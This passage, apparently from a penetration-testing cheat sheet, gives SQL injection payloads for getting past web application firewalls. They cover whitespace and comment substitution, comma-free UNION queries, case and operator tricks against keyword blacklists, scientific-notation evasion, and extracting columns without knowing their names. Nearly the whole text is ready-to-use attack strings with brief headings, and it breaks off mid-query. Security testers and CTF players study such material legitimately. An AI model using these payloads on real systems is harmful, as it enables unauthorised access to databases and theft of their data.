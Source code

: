 WAF Bypass

Initial bypasses from here
No spaces bypass

No Space (%20) - bypass using whitespace alternatives

    ?id=1%09and%091=1%09--
    ?id=1%0Dand%0D1=1%0D--
    ?id=1%0Cand%0C1=1%0C--
    ?id=1%0Band%0B1=1%0B--
    ?id=1%0Aand%0A1=1%0A--
    ?id=1%A0and%A01=1%A0--

No Whitespace - bypass using comments

    ?id=1/*comment*/and/**/1=1/**/--

No Whitespace - bypass using parenthesis

    ?id=(1)and(1)=(1)--

No commas bypass

No Comma - bypass using OFFSET, FROM and JOIN

    LIMIT 0,1         -> LIMIT 1 OFFSET 0
    SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
    SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d

Generic Bypasses

Blacklist using keywords - bypass using uppercase/lowercase

    ?id=1 AND 1=1#
    ?id=1 AnD 1=1#
    ?id=1 aNd 1=1#

Blacklist using keywords case insensitive - bypass using an equivalent operator

    AND   -> && -> %26%26
    OR    -> || -> %7C%7C
    =     -> LIKE,REGEXP,RLIKE, not < and not >
    > X   -> not between 0 and X
    WHERE -> HAVING --> LIMIT X,1 -> group_concat(CASE(table_schema)When(database())Then(table_name)END) -> group_concat(if(table_schema=database(),table_name,null))

Scientific Notation WAF bypass

You can find a more in depth explaination of this trick in gosecure blog.
Basically you can use the scientific notation in unexpected ways for the WAF to bypass it:

    -1' or 1.e(1) or '1'='1
    -1' or 1337.1337e1 or '1'='1
    ' or 1.e('')=

Bypass Column Names Restriction

First of all, notice that if the original query and the table where you want to extract the flag from have the same amount of columns you might just do: 0 UNION SELECT * FROM flag

It’s possible to access the third column of a table without using its name using a query like the following: SELECT F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;, so in an sqlinjection this would looks like:

    # This is an example with 3 columns that will extract the column number 3
    -1 UNION SELECT 0, 0, 0, F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;

Or using a comma bypass:

    # In this case, it's extracting the third value from a 4 values table and returning 3 values in the "union select"
    -1 union select * from (select 1)a join (select 2)b join (select F.3 from (select * from (
